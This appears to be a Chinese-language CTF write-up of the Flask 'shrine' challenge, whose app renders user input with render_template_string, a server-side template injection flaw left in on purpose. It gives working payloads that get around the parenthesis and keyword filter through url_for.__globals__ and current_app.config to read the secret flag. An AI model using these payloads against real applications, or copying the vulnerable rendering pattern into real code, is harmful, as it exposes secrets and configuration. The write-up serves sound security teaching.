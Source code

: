 源码

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

一眼 SSTI，但是把括号 ban 了，找了一圈没发现有合适的 payload。

但是这里来看 flag 的位置，实际上是能够得到一些启发的，当`config`,`self`,`()`都被过滤的时候，为了获取讯息，我们需要读取一些例如`current_app`这样的全局变量。

先读取全局变量

```payload
/shrine/{{url_for.__globals__}}
```

![globals](globals.png)

其中

```python
 'current_app': <Flask 'app'>, 'PY2': True, 'send_from_directory':
```

`current_app`是当前使用的`app`，继续获取其中的 config

```payload
{{url_for.__globals__['current_app'].config}}
```

![globals](flag.png)





